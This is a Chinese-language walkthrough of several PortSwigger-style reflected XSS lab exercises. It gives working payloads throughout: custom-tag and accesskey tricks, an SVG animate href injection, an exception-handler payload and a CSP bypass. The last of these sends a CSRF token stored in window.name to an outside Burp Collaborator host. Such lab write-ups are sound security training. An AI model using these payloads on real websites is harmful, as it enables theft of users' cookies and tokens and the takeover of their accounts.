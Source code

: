 ##### 4.1.9 Reflected XSS into HTML context with all tags blocked except custom ones

当常用的payload都不可用的时候就可以尝试自定义tag进行XSS攻击：

```javascript
?search=<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x';
//该payload生成了一个名为X的自定义标签，通过onfocus事件进行alert操作并生成一个弹窗放置标签x
```

```javascript
?'accesskey='x'onclick='alert(1)
//把X作为一个全局热键，当X被按动时触发alert事件
```

##### 4.1.10 Reflected XSS with event handlers and `href` attributes blocked

当之前常见的通过事件和标签嵌套被禁用的时候，可以人为添加一个假链接，辅以诱导性的标题进行XSS攻击（可能有些类似于ClickJacking)

```javascript
/?search=<svg><a><animate+attributeName=href+values=javascript:alert(1) /><text+x=20+y=20>Click me</text></a>
//attributeName：http://www.verydoc.net/svg/00007430.html
```

这相当于在页面中直接插入了一个含有click me的文本框超链接，点击后则会执行alert代码。

##### 4.1.11 Reflected XSS in a JavaScript URL with some characters blocked

当javascript指令无法执行的时候，可以通过构造代码错误并将其发送到错误处理器（Exception Handler）的方式构造XSS攻击。

```
post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```

需要注意的是该题中屏蔽了空格，所以throw语句和它“抛出”的错误之间使用了/**/分割。由于throw语句不可以直接在URL中被解析，所以需要使用toString方法强制在window弹窗中加载语句。

##### 4.1.12 反射型XSS与CSP bypass

#CSP Intro:https://portswigger.net/web-security/cross-site-scripting/content-security-policy

审计页面代码，发现My account =>Change Email可能存在XSS注入。

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308021051884.png)

随便输入一个网址，发现输入的"email"和附带的CSRF被一起传入后端：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308021051885.png)

由于CSRF存在，如果要对网站进行XSS注入，则必须获取与email相对应的CSRF值。构造脚本：

```javascript
<script>
if(window.name) {
		new Image().src='//gsc9g31vnpe66qug03nb584ef5lw9l.burpcollaborator.net?'+encodeURIComponent(window.name);
		} else {
     			location = 'https://0a12009a031e506780d50375000f0077.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://exploit-0ab10084031450a4808802b701ac00fa.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
//该脚本的作用是：绘制一个图片，带有文字Click me,诱导用户将自身的CSRF信息发送给collaborator服务器
```
